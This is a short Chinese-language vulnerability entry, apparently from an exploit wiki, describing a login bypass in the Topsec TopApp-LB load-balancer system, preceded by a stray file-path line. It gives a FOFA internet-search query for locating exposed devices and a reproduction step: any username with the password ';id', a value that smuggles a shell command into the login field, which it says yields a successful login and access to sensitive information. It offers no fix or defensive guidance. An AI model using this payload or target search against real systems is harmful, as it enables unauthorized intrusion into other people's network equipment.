 # 天融信负载均衡TopApp-LB任意登陆

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

在登录页面中输入，账号:**任意账号**  密码:**;id**

![](http://wikioss.peiqi.tech/vuln/trx-1.png)

成功登录

![](http://wikioss.peiqi.tech/vuln/trx-2.png)